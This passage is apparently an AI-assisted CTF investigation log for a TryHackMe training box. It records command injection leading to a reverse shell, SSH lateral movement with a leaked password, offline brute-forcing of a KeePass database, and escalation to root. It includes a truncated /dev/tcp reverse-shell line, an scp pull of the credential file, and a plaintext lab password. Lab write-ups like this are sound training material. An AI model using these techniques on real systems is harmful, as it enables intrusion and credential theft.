- `bash -i >& /dev/tcp/...` — blocked because it requires `&`.
- Pipe-based (`|`) and `&`-based command chaining — blocked by the character filter.

#### Findings

Confirmed: reverse shell as `www-data` obtained via a fetch-and-execute payload that respects the input filter's length and character constraints.

#### Evidence

- `evidence/sources/app.py`
- `evidence/sources/secret.config`



#### Remaining Questions

- Is the shell's identity actually `www-data` (not yet re-confirmed in the new session)?
- Does the leaked `sysadmin` credential work for a pivot?

#### Next Steps

Confirm identity, test the leaked credential, and locate `user.txt`.

### Phase 5: Post-Exploitation — Lateral Movement to `sysadmin`

#### Objective

Confirm identity on the `www-data` foothold and test the leaked `sysadmin` credential from `secret.config` for an OS-level pivot.

#### Observations

Identity/context confirmation commands and their exact output:

```
www-data@tryhackme-2204:/opt/netops$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@tryhackme-2204:/opt/netops$ hostname
tryhackme-2204
www-data@tryhackme-2204:/opt/netops$ pwd
/opt/netops
www-data@tryhackme-2204:/opt/netops$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
fwupd-refresh:x:113:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
sysadmin:x:1001:1001::/home/sysadmin:/bin/bash
```

Confirms `uid=33(www-data)`, host `tryhackme-2204`, cwd `/opt/netops`; `sysadmin` (uid 1001) and `ubuntu` (uid 1000) are the only two accounts with a real login shell (`/bin/bash`) besides `root`.

#### Actions and Experiments

Attempt 1 — `su sysadmin` from the Penelope reverse shell, password from `secret.config`:

```
www-data@tryhackme-2204:/opt/netops$ su sysadmin
Password:
su: Authentication failure
www-data@tryhackme-2204:/opt/netops$ su sysadmin
Password:
su: Authentication failure
www-data@tryhackme-2204:/opt/netops$
```

Attempt 2 — SSH to the target as `sysadmin` from within the `www-data` shell, same password:

```
www-data@tryhackme-2204:/opt/netops$ ssh sysadmin@10.49.170.107
The authenticity of host '10.49.170.107 (10.49.170.107)' can't be established.
ED25519 key fingerprint is SHA256:B5ckvDUbvjBhB5sflb2NrWVn2YosxCjiQlFfqdgJ1HE.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Could not create directory '/var/www/.ssh' (No such file or directory).
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
sysadmin@10.49.170.107's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.8.0-1017-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Nov  5 13:12:55 UTC 2026

  System load:  0.08               Processes:             111
  Usage of /:   16.0% of 19.31GB   Users logged in:       0
  Memory usage: 71%                IPv4 address for ens5: 10.49.170.107
  Swap usage:   0%

 * Ubuntu Pro delivers the most comprehensive open source security and
   compliance features.

   https://ubuntu.com/aws/pro

Expanded Security Maintenance for Applications is not enabled.

213 updates can be applied immediately.
152 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue May 19 03:18:19 2026 from 192.168.230.214
```

#### Results

`su sysadmin` failed twice with `Authentication failure`. `ssh sysadmin@10.49.170.107` with the same password succeeded immediately — login banner confirms Ubuntu 22.04.5 LTS, kernel `6.8.0-1017-aws`, host interface `ens5` at `10.49.170.107`. This confirms the `secret.config` credential is valid for OS login; the two `su` failures were a shell/TTY artifact of the reverse shell, not an invalid password. Note: the SSH client's own `.ssh` directory couldn't be created (`/var/www/.ssh`, no such directory) since `www-data`'s home isn't writable/doesn't exist as expected — host key was accepted for the session but not persisted; cosmetic, did not block the login.

#### Analysis

Isolating the delivery channel (raw `su` in a non-PTY reverse shell vs. a clean SSH session) resolved the ambiguity cheaply, consistent with the project's filter-isolation approach from Phase 4 — when something fails, test the channel/mechanism before discarding the hypothesis.

#### Failed Attempts / Dead Ends

`su sysadmin` from the `www-data` reverse shell — `Authentication failure` x2. Root cause not fully confirmed (most likely TTY/stdin handling in a non-PTY shell), but not pursued further since SSH gave a clean, unambiguous result.

#### Findings

Confirmed: lateral movement from `www-data` to `sysadmin` via SSH using the credential leaked in `secret.config`.

#### Evidence

Full terminal transcript (SSH login banner, Ubuntu 22.04.5 LTS, host `tryhackme-2204`, IPv4 `10.49.170.107`) captured inline above (this phase).

#### Remaining Questions

- Is `user.txt` in `/home/sysadmin`?
- Does `sysadmin` have `sudo` rights, or any other path toward `root`?

#### Next Steps

Check `sudo -l`, locate and read `user.txt`, and begin privilege-escalation enumeration from the `sysadmin` context.

### Phase 6: Post-Exploitation Enumeration — `sysadmin` Home and Credential Backup

#### Objective

Enumerate the `sysadmin` home directory for `user.txt` and any further privilege-escalation leads.

#### Observations

Home directory listing as `sysadmin`:

```
sysadmin@tryhackme-2204:~$ whoami
sysadmin
sysadmin@tryhackme-2204:~$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
sysadmin@tryhackme-2204:~$ hostname
tryhackme-2204
sysadmin@tryhackme-2204:~$ ls -la
total 36
drwxr-x--- 5 sysadmin sysadmin 4096 May 19 03:35 .
drwxr-xr-x 4 root     root     4096 May 19 03:10 ..
-rw-r--r-- 1 sysadmin sysadmin  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 sysadmin sysadmin 3771 Feb 25  2020 .bashrc
drwx------ 2 sysadmin sysadmin 4096 May 19 03:18 .cache
drwxrwxr-x 3 sysadmin sysadmin 4096 May 19 03:29 .local
-rw-r--r-- 1 sysadmin sysadmin  807 Feb 25  2020 .profile
drwx------ 2 sysadmin sysadmin 4096 May 19 03:36 backups
-rw-rw-r-- 1 sysadmin sysadmin   42 May 19 03:29 user.txt
sysadmin@tryhackme-2204:~$ cat user.txt
THM{REDACTED}
```

`id`/`whoami`/`hostname` confirm the shell is genuinely `sysadmin` (uid 1001), not a stale/cached identity. `user.txt` found directly in the home directory. Flag content redacted here per project policy (Section 2, `CLAUDE.md`); actual value captured and known to the user.

A `backups/` directory (mode `drwx------`, owned by `sysadmin`) was also present. Listing and reading its contents:

```
sysadmin@tryhackme-2204:~$ ls -la backups/
total 16
drwx------ 2 sysadmin sysadmin 4096 May 19 03:36 .
drwxr-x--- 5 sysadmin sysadmin 4096 May 19 03:35 ..
-rw-r--r-- 1 sysadmin sysadmin  286 May 19 03:36 README.txt
-rw------- 1 sysadmin sysadmin 2439 May 19 03:34 infrastructure.kdbx
sysadmin@tryhackme-2204:~$ cd backups/
sysadmin@tryhackme-2204:~/backups$ cat README.txt
Backup archive — infrastructure credentials

Periodic exports from the credential store are placed here by the backup agent.
Treat all files in this directory as CONFIDENTIAL.

infrastructure.kdbx — KeePass credential database

Contact the sysadmin team lead if you require access.
```

#### Hypotheses

`infrastructure.kdbx` is a KeePass password database, readable only by `sysadmin` (now accessible), that may contain the `root` credential or another account's password. The `README.txt` framing ("periodic exports... placed here by the backup agent") ties this directly to the `[backup_agent]` entry already seen in `secret.config` — this is plausibly where that service account's output lands.

#### Actions and Experiments

Enumeration only so far (`ls -la`, `cat README.txt`); the `.kdbx` file itself has not yet been pulled off-box or attacked (no master password known, no attempt to crack it yet).

#### Results

Confirmed: `user.txt` captured. Confirmed: a KeePass database (`infrastructure.kdbx`, 2439 bytes) exists in `sysadmin`'s `backups/` directory and is now readable under the `sysadmin` context.

#### Analysis

This is a strong lead for privilege escalation: KeePass databases are typically cracked offline (`keepass2john` + `john`/`hashcat`) once exfiltrated, or opened directly if a master password/keyfile can be found elsewhere on the box (e.g. reused from `secret.config`'s `S3cur3Backup$Acc3ss!`, or a keyfile sitting alongside it). Worth checking for a `.key` file or any plaintext hint before resorting to brute-force.

#### Failed Attempts / Dead Ends

None yet for this phase — purely enumeration so far.

#### Findings

Confirmed: `user.txt` obtained. New lead: `infrastructure.kdbx` KeePass database discovered in `/home/sysadmin/backups/`, not yet cracked or examined further.

#### Evidence

Full terminal transcript (home directory listing, `user.txt` read, `backups/` listing, `README.txt` contents) captured inline above (this phase). `images/ssh-user-txt.png` (E-014) is the supporting screenshot for the `user.txt` capture.

#### Remaining Questions

- Does the `secret.config` password (or any other known credential) also open `infrastructure.kdbx`?
- Is there a companion keyfile anywhere on the box (common KeePass setup: password + `.key` file)?
- Does `sudo -l` show anything for `sysadmin` independent of this lead?

#### Next Steps

1. Check `sudo -l` as `sysadmin` (still outstanding from Phase 5).
2. Search the filesystem for a possible `.key`/keyfile companion to `infrastructure.kdbx` (e.g. `find / -iname "*.key" -newer /home/sysadmin/.bashrc 2>/dev/null`, or check `backups/` and home dir more broadly).
3. Pull `infrastructure.kdbx` to the attacker machine (e.g. `base64`-encode and copy out over the existing channel, or `scp` now that SSH/password access as `sysadmin` works) for offline analysis.
4. Attempt to open it with the already-known `S3cur3Backup$Acc3ss!` password before resorting to cracking.

### Phase 7: Privilege Escalation — KeePass Cracking and Root Pivot

#### Objective

Crack `infrastructure.kdbx` and use any credential found inside it to escalate from `sysadmin` to `root`.

#### Observations

Checked for an easier path first — no results on either front:

```bash
sudo -l
ls -la /etc/netops/
cat /etc/netops/env
```

`/etc/netops/env` (the `EnvironmentFile` referenced by `netops.service`) returned `Permission denied` for `sysadmin`. `sudo -l` and the `/etc/netops/` listing were checked in parallel with the cracking effort below; no sudo rule or readable env file surfaced before the KeePass crack succeeded, so this path was not pursued further once the database was open.

Pulled the database to the attacker machine:

```bash
scp sysadmin@10.49.170.107:~/backups/infrastructure.kdbx .
```

Confirmed the known `secret.config` password does _not_ open it:

```python
from pykeepass import PyKeePass
kp = PyKeePass('infrastructure.kdbx', password='S3cur3Backup$Acc3ss!')
```

Result: `FAILED: Invalid credentials`.

Checked for a companion keyfile — none found (`find / -iname "*.key" ...`, `find / -iname "*.keyx"`, home directory listing — see Phase 6). Checked for a `backup_agent` systemd unit/script that might hardcode the real master password — none found; the only relevant unit is `netops.service` itself (runs the Flask app as `www-data`, reads `EnvironmentFile=/etc/netops/env`, which `sysadmin` cannot read).

#### Hypotheses

Standard offline-cracking tooling (`keepass2john` + `john`/`hashcat`) should work if installable; failing that, a direct Python brute force via `pykeepass` (which parses KDBX natively) bypasses the need for hash extraction entirely.

#### Actions and Experiments

Attempted standard tooling first — all blocked on this attacker image:

- `apt install keepassxc` — failed, stale package index (`404` on dependency `.deb`s from the mirror); `apt-get update` did not resolve it for this package.
- `/usr/sbin/keepass2john infrastructure.kdbx` — ran, but rejected the file: `File version '40000' is currently not supported!` (this `john` build is the Kali base package, not jumbo, and doesn't parse KDBX4).
- Checked for a `hashcat`-side equivalent (`keepass2hashcat`) under `/usr/share/hashcat/tools/` — not present; only unrelated `*2hashcat` scripts for other formats (LUKS, VeraCrypt, Bitwarden, etc.) were bundled.

Switched to a direct `pykeepass` brute force (no hash extraction needed):

1. `pip install pykeepass` succeeded (pip/PyPI access worked throughout; only `apt` was affected by the stale mirror).
2. Tried the known `secret.config` password directly — failed (see Observations above).
3. Tried a small, room-themed custom wordlist (`custom.txt`: known passwords, `netops`/`sysadmin`/`backup_agent`, corp/room-theme guesses) via a single-threaded script ([`evidence/scripts/crack.py`](evidence/scripts/crack.py)) — no hit.
4. Timed a single attempt ([`evidence/scripts/timing.py`](evidence/scripts/timing.py)) to size the problem: `~0.03s` per guess (Argon2 KDF, but configured with a low-enough cost to make moderate-scale brute force feasible).
5. Built a multiprocessing cracker ([`evidence/scripts/crack_mp.py`](evidence/scripts/crack_mp.py), `multiprocessing.Pool`, 2 workers — matching the attacker VM's `nproc`) and ran it against the top 1,000,000 entries of `rockyou.txt` (pre-sorted by frequency, so the head is the highest-value slice):

   ```bash
   gunzip -k /usr/share/wordlists/rockyou.txt.gz
   head -n 1000000 /usr/share/wordlists/rockyou.txt > rockyou-top1m.txt
   python3 crack_mp.py rockyou-top1m.txt
   ```

#### Results

The `rockyou-top1m.txt` run found the master password after ~2,000 attempts: `[REDACTED-KDBX-PASSWORD]` (actual value in the user's own session; also in evidence, not duplicated in this document per the project's credential-redaction policy). Opening the database and dumping its entries ([`evidence/scripts/dump_entries.py`](evidence/scripts/dump_entries.py), password redacted in that script too) revealed two entries:

```
Title: Root User Password - Sensitive
Username: root
Password: [REDACTED-ROOT-PASSWORD]
URL: https://keepass.info/
Notes: root user password, remember to change later.
---
Title: Sample Entry #2
Username: Michael321
Password: 12345
URL: https://keepass.info/help/kb/testform.html
Notes: None
```

The first entry is a decoy-adjacent but genuine finding: the actual `root` OS account password, deliberately left in a KeePass "backup" to simulate exactly the "cutting corners" scenario from the room brief. The second entry is a red herring / sample data left over from a default KeePass template, not connected to any real account on this box.

Used the recovered password to pivot:

```
sysadmin@tryhackme-2204:~/backups$ su root
Password:
root@tryhackme-2204:/home/sysadmin/backups# whoami
root
root@tryhackme-2204:/home/sysadmin/backups# id
uid=0(root) gid=0(root) groups=0(root)
root@tryhackme-2204:/home/sysadmin/backups# hostname
tryhackme-2204
root@tryhackme-2204:~# ls
root.txt  snap
root@tryhackme-2204:~# cat root.txt
THM{REDACTED}
```

Flag content redacted here per project policy (Section 2, `CLAUDE.md`); actual value captured and known to the user.



#### Analysis

The intended path for this room appears to be entirely credential-chasing (`secret.config` → `sysadmin` → `infrastructure.kdbx` → `root`), not a kernel/SUID/sudo-misconfig privesc — `sudo -l` and `/etc/netops/env` turned up nothing, and the `README.txt` in `backups/` explicitly frames the `.kdbx` as the next link in the chain. The master password landing early in a frequency-sorted top-1M list (rather than needing the full 14M) suggests it was intentionally chosen to be crackable without requiring GPU-scale cracking — consistent with a CTF room rather than a security-hardened real target.

#### Failed Attempts / Dead Ends

- `apt install keepassxc` / `john`/`hashcat` KDBX4 hash extraction — both blocked by tooling gaps on the attacker image (stale apt mirror; `keepass2john`/`keepass2hashcat` don't support/exist for KDBX4 here), not by anything on the target side. Worth remembering for future rooms: check `pip`-based alternatives early if `apt`-installed crackers are incomplete.
- Known `secret.config` password against `infrastructure.kdbx` — did not work; credential reuse was a reasonable hypothesis but false here.
- Small custom/thematic wordlist — missed; the real password was a common one from `rockyou`, not a room-themed guess.
- `sudo -l` / `/etc/netops/env` as `sysadmin` — both came back empty/denied; not the intended path for this room.

#### Findings

Confirmed: `infrastructure.kdbx` cracked via `pykeepass` + top-1M `rockyou` wordlist (multiprocessing). Confirmed: the database contained the real `root` OS account password. Confirmed: privilege escalation to `root` via `su root` with that password. **Room complete — both `user.txt` and `root.txt` obtained.**

#### Evidence

- `evidence/infrastructure.kdbx` (not yet copied into evidence/ as of this writing — currently only on the attacker machine; should be added).
- Full terminal transcript (`su root`, `id`, `whoami`, `cat root.txt`, flag redacted in this document) captured inline above (this phase).
- Cracking/dump scripts saved to `evidence/scripts/`: [`timing.py`](evidence/scripts/timing.py), [`crack.py`](evidence/scripts/crack.py), [`crack_mp.py`](evidence/scripts/crack_mp.py), [`dump_entries.py`](evidence/scripts/dump_entries.py) (the entry-dumping script; its master password is redacted per policy, matching the `[REDACTED-KDBX-PASSWORD]` placeholder used elsewhere in this phase).

#### Remaining Questions

None — investigation objective (both flags) achieved.

#### Next Steps

None further required for the room itself. Recommended before closing out: save `infrastructure.kdbx`, the cracking scripts, and the cracked credentials (in a redacted or access-controlled form) to `evidence/`, then move to final review / writeup via `/ctf-writeup`.

## 5. Vulnerability Candidates

### Candidate 1: OS Command Injection via Host Health Probe

- Status: Confirmed
- Affected Asset: `10.49.170.107:5050`
- Affected Endpoint / Functionality: `/internal/health` ("Run Probe")
- Vulnerability Class: OS Command Injection (CWE-78)
- Observation: Backend builds `ping -c 2 -W 1 <input>` from unvalidated user input.
- Hypothesis: A raw newline byte separates a second command from the `ping` invocation.
- Testing Performed: See Phase 3/4 above.
- Evidence: `run-probe-whoami.png`, `reverse-shell.png`, `sources/app.py`.
- Validation Status: Confirmed — direct command execution achieved, escalated to an interactive shell.
- Demonstrated Impact: Remote code execution as `www-data`.
- Potential Impact: Full web-root compromise; pivot point for further lateral movement.
- Remaining Questions: Whether the leaked `sysadmin` credential extends this to an OS-level account.
- Next Steps: Test credential pivot, continue post-exploitation.

### Candidate 2: SQL Injection / Authentication Bypass

- Status: Confirmed
- Affected Asset: `10.49.170.107:5050`
- Affected Endpoint / Functionality: `/internal` (POST login)
- Vulnerability Class: SQL Injection → Authentication Bypass (CWE-89)
- Observation: Login query built via direct string interpolation of `username`/`password`.
- Hypothesis: A boolean injection in `username` bypasses the credential check.
- Testing Performed: See Phase 2 above.
- Evidence: Raw session notes.
- Validation Status: Confirmed.
- Demonstrated Impact: Authenticated access as operator `netops` with zero valid credentials.
- Potential Impact: Gateway to the authenticated attack surface (Phase 3).
- Remaining Questions: None.
- Next Steps: None; superseded by the command-injection foothold.

### Candidate 3: Weak Credential Store (KeePass Database) Leading to Root Compromise

- Status: Confirmed
- Affected Asset: `10.49.170.107` (host-level, `sysadmin`'s home directory)
- Affected Endpoint / Functionality: `/home/sysadmin/backups/infrastructure.kdbx`
- Vulnerability Class: Weak Credential Storage / Weak Password (CWE-521 / CWE-521-adjacent, credential management)
- Observation: A KeePass database readable by `sysadmin` stored the plaintext `root` account password behind a master password crackable from a common wordlist (found within the top 1,000,000 most frequent `rockyou` entries).
- Hypothesis: The master password was weak/common enough to brute-force at moderate scale without GPU cracking.
- Testing Performed: See Phase 7 above.
- Evidence: Raw session notes (cracking run, `su root`, `root.txt` read); cracking scripts.
- Validation Status: Confirmed — database opened, credential extracted, used to log in as `root`.
- Demonstrated Impact: Full root compromise of the host.
- Potential Impact: Total system compromise; in a real environment, exposure of every other credential also stored in the same database.
- Remaining Questions: None.
- Next Steps: None; this was the final step of the chain.

## 6. Confirmed Vulnerabilities

See Vulnerability Candidates above (Section 5); all three are confirmed and no further detail beyond that is pending at this stage of the investigation.

## 7. Rabbit Holes and Disproven Hypotheses

- **Anonymous SSH login:** initial reasoning was "port 22 is open, maybe anonymous auth works." Rejected before testing — no evidence supported it and SSH has no anonymous-auth default. Lesson: don't test a hypothesis that has no supporting evidence at all, even if it's cheap to try.
- **Audit log entries as proof of prior working exploitation:** initial reasoning was that `%0a`-pattern entries in the audit log showed a previous operator had already achieved command injection. Disproven once a literal `%0a` string was shown to pass through un-decoded in this app, meaning those entries were themselves failed attempts. Lesson: an audit log reflecting raw input is evidence of a logging flaw, not evidence that an attack in it actually worked.
- **Full reverse-shell one-liner failing due to character filtering:** initially assumed the blocked characters caused the failure. The real cause (confirmed from source) was a 100-character length cap. Lesson: when a payload fails, isolate variables (length vs. character set) rather than assuming which one is responsible.

## 8. Evidence and Artifacts

| ID    | Description                                                                                                                                 | Location                                                             | Related Finding |
| ----- | ------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------- | --------------- |
| E-001 | Full command/output transcript (nmap, gobuster, all requests/responses) — captured inline per phase, no separate session-notes file | `investigations/TryHackMe/silent-monitor/investigation.md` (Phases 1-7) | All phases      |
| E-002 | Main page screenshot                                                                                                                        | `investigations/TryHackMe/silent-monitor/evidence/images/main-page.png`        | Phase 1         |
| E-003 | Login page source                                                                                                                           | `investigations/TryHackMe/silent-monitor/evidence/sources/login.html`          | Phase 2         |
| E-004 | System overview dashboard screenshot                                                                                                        | `investigations/TryHackMe/silent-monitor/evidence/images/system-overview.png`  | Phase 3         |
| E-005 | Host Health probe UI screenshot                                                                                                             | `investigations/TryHackMe/silent-monitor/evidence/images/host-health.png`      | Phase 3         |
| E-006 | Baseline probe result screenshot                                                                                                            | `investigations/TryHackMe/silent-monitor/evidence/images/run-probe-127.png`    | Phase 3         |
| E-007 | `whoami` probe result screenshot                                                                                                            | `investigations/TryHackMe/silent-monitor/evidence/images/run-probe-whoami.png` | Phase 3         |
| E-008 | App source (`app.py`)                                                                                                                       | `investigations/TryHackMe/silent-monitor/evidence/sources/app.py`              | Phase 4         |
| E-009 | Leaked config (`secret.config`)                                                                                                             | `investigations/TryHackMe/silent-monitor/evidence/sources/secret.config`       | Phase 4         |
| E-010 | Reverse shell screenshot                                                                                                                    | `investigations/TryHackMe/silent-monitor/evidence/images/reverse-shell.png`    | Phase 4         |
| E-011 | Main page HTML source                                                                                                                       | `investigations/TryHackMe/silent-monitor/evidence/sources/main-page.html`      | Phase 1         |
| E-012 | Login page screenshot (not referenced in raw notes, captured during the session)                                                            | `investigations/TryHackMe/silent-monitor/evidence/images/login.png`            | Phase 2         |
| E-013 | `user.txt` capture via SSH — full transcript captured inline                                                                                | `investigations/TryHackMe/silent-monitor/investigation.md` (Phase 6) | Phase 6         |
| E-014 | SSH session + `user.txt` read screenshot                                                                                                    | `investigations/TryHackMe/silent-monitor/evidence/images/ssh-user-txt.png`     | Phase 6         |
| E-015 | `infrastructure.kdbx` KeePass database (pending copy into evidence)                                                                         | `investigations/TryHackMe/silent-monitor/evidence/sources/infrastructure.kdbx` | Phase 7         |
| E-016 | Cracking/dump scripts ([`timing.py`](evidence/scripts/timing.py), [`crack.py`](evidence/scripts/crack.py), [`crack_mp.py`](evidence/scripts/crack_mp.py), [`dump_entries.py`](evidence/scripts/dump_entries.py); master password redacted in `dump_entries.py` per policy) | `investigations/TryHackMe/silent-monitor/evidence/scripts/`                    | Phase 7         |
| E-017 | `root.txt` capture via `su root` — full transcript captured inline                                                                          | `investigations/TryHackMe/silent-monitor/investigation.md` (Phase 7) | Phase 7         |
| E-018 | `su root` → `root.txt` capture screenshot                                                                                                   | `investigations/TryHackMe/silent-monitor/evidence/images/got-root.png`         | Phase 7         |

## 9. Technical Knowledge and Lessons Learned

### Concepts

- OS command injection via newline separation into a single-argument shell command (`ping <input>`), distinct from `;`/`|`/`&` chaining.
- Input filters that block characters but not length (or vice versa) can both be bypassed if you test them independently.

### Techniques

- Isolating a WAF/filter one variable at a time (one character, one construct) rather than guessing a whole bypass payload at once.
- Using `curl --data-urlencode $'...\n...'` to send a raw newline byte a browser `<input>` cannot produce.
- Keeping the injected payload short (fetch-and-execute) to stay under an input-length cap while the unconstrained logic lives in the fetched file.

### Lessons

- An audit log that reflects raw input is itself a finding, but don't treat its contents as proof that a technique worked elsewhere.
- Read the application's own source as soon as you have any read/execute primitive — it answers "why did that payload fail" far faster than more guessing.

### Future Applications

Apply the same "isolate filter dimensions separately" method (character set vs. length vs. encoding) to other injection points in future rooms before concluding a vector is unexploitable.

## 10. Final Investigation Summary

Silent Monitor's "CorpNet NOC Portal" (Flask app, port 5050) deliberately hid its functional routes behind an unlinked `/internal` path. Its login query was vulnerable to classic boolean SQL injection (direct string interpolation), bypassing authentication entirely and landing an `operator` session without any valid credential. The authenticated "Host Health" probe passed its input straight into a shell-executed `ping` command; after ruling out two plausible-but-wrong newline-encoding approaches (literal `\n` text, literal `%0a` text — both artifacts of the browser's single-line `<input>`), a raw newline byte sent via `curl` confirmed OS command injection as `www-data`. The injection point enforced a character blacklist (`;|`$&`) and a 100-character length cap; isolating each dimension separately (rather than assuming one explained a failed payload) showed the first full reverse-shell attempt failed on length, not characters — the fix was a short fetch-and-execute command that kept the filtered field itself minimal while the real payload ran unconstrained from a file.

Reading the app's own source (`app.py`) once code execution was achieved immediately explained the filter precisely and surfaced a second, independent weakness: a leaked OS credential for the `sysadmin` account in `secret.config`. That credential worked over SSH (a prior `su` attempt had failed only due to a TTY artifact in the non-interactive reverse shell, not an invalid password), giving a stable foothold and `user.txt`. Enumerating `sysadmin`'s home directory surfaced a third weakness: a KeePass database (`infrastructure.kdbx`) in a `backups/` folder, explicitly described by its own `README.txt` as an export from the same "backup agent" already seen in `secret.config`. Standard offline-cracking tools (`john`/`keepass2john`, `hashcat`) turned out to be incomplete on the attacker image (stale `apt` mirror; `keepass2john` didn't support the KDBX4 format; no `keepass2hashcat` equivalent was bundled), so the database was cracked directly via `pykeepass` (which parses KDBX natively) with a multiprocessing brute force against the most common ~1,000,000 passwords from `rockyou.txt`. The master password was found within the first ~2,000 attempts and opened a database containing the real `root` account password in plaintext, which was used to `su root` and capture `root.txt`.

End-to-end chain: **hidden endpoint discovery → SQL injection auth bypass → OS command injection (RCE as `www-data`) → leaked OS credential (lateral movement to `sysadmin`) → weak/crackable credential store (KeePass) → root password exposure → full root compromise.** The room's throughline — "someone's been cutting corners" — is reflected at every stage: an unlinked-but-reachable admin route, an unparameterized SQL query, an unvalidated shell command, a plaintext credential in a config file, and a password-protected-but-weakly-protected credential vault holding the keys to the whole box.

## 11. Writeup Handoff

- Investigation File: `investigations/TryHackMe/silent-monitor/investigation.md`
- Final Writeup: Not yet created.
- Writeup Status: Investigation complete; ready for `/ctf-writeup`.
- Important Narrative Events: The two "false lead" newline-encoding attempts (Phase 3), the length-vs-character misdiagnosis of the first reverse-shell failure (Phase 4), the `su` vs. SSH TTY-artifact diagnosis (Phase 5), and the tooling-gap detour (`john`/`hashcat` incomplete on the attacker image, Phase 7) are all worth preserving in the eventual writeup as genuine reasoning steps, not just the final working techniques.
- Evidence References: See Section 8. Cracking/dump scripts are saved (E-016). Still outstanding: copy `infrastructure.kdbx` itself into `evidence/sources/` (E-015).
- Special Instructions: Both `user.txt` and `root.txt` have been captured; their contents are intentionally redacted throughout this document per project policy (`CLAUDE.md` Section 2) and are known only to the user via their own terminal session. The cracked KeePass master password and the recovered `root` password are likewise not written out in this document.
